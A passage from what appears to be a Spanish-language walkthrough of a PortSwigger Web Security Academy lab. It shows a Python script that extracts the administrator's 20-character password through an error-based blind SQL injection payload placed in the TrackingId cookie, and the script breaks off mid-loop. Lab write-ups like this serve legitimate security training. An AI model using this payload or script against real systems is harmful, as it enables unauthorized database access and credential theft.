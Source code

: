 ![l3](/assets/images/SQLiPortswigger/lab12/length3.png)

Después de varios intentos, descubrimos que la contraseña es igual a 20 caracteres.

<br>

Por lo que al saber esto ahora debemos enumerar dicha contraseña del usuario administrator.

Reutilizaremos el script que ya habíamos creado.

Pero esta vez solo cambiaremos algunas cosas al script que usamos:

```py
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ad400e704c50f56c067044e00340081.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):

        for character in characters:

            cookies = {
                'TrackingId': "1XdkxLl4gbzwLsIZ'||(select CASE WHEN SUBSTR(password,%d,1)='%s' then TO_CHAR(1/0) else '' end FROM users WHERE username='administrator')||'" % (position, character),
                'session': 'RxsbjGd7h0vXIfDaHFy7lIssTkUIwHwn'
            }

            p1.status(cookies['TrackingId'])
```